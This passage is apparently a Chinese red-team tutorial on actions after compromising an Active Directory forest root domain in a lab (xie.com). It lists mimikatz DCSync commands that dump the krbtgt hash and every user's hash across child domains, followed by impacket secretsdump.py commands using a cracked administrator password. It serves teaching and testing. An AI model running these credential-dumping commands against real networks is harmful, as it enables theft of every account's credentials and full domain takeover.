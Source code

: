 ## 获得林根域的后操作

获得林根域 xie.com 的域控制器权限后，即可使用 mimikatz 执行如下命令导出全林中任意域的指定用户的哈希：

```
#导出域 xie.com 内 krbtgt 用户的哈希
lsadump::dcsync /domain:xie.com /user:xie\krbtgt /csv
#导出域 beijing.xie.com 内 krbtgt 用户的哈希
lsadump::dcsync /domain:beijing.xie.com /user:beijing\krbtgt /csv
#导出域 shanghai.xie.com 内 krbtgt 用户的哈希
lsadump::dcsync /domain:shanghai.xie.com /user:shanghai\krbtgt /csv
```

在林根域的域控上使用 mimikatz 执行如下命令导出全林中任意域的所有用户的哈希。

```
#导出域 xie.com 内所有用户的哈希
lsadump::dcsync /domain:xie.com /all /csv
#导出域 beijing.xie.com 内所有用户的哈希
lsadump::dcsync /domain:beijing.xie.com /all /csv
#导出域 shanghai.xie.com 内所有用户的哈希
lsadump::dcsync /domain:shanghai.xie.com /all /csv
```

或者可以通过 CobaltStrike 内置的 mimikatz 模块得到林根域 xie.com 的域管理员 administrator 的哈希为：33e17aa21ccc6ab0e6ff30eecb918dfb，如图所示：

      ![截图](c9e2b14b05d78a53f6be4bce0fa58651.png)

通过解密该哈希得到明文密码为：P@ssword1234。然后通过 impacket 下的secretsdump.py 脚本执行如下命令通过 DCSync 远程导出全林内指定用户的哈希，要导出哪个域的哈希，就连接指定域的域控，如果是导出指定用户，需要加上前缀

```
#导出域 xie.com 内 krbtgt 用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.4 -just-dc-user "xie\krbtgt" 
#导出域 shanghai.xie.com 内 krbtgt 用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.13 -just-dc-user "shanghai\krbtgt"
#导出域 beijing.xie.com 内 krbtgt 用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.14 -just-dc-user "beijing\krbtgt"
```
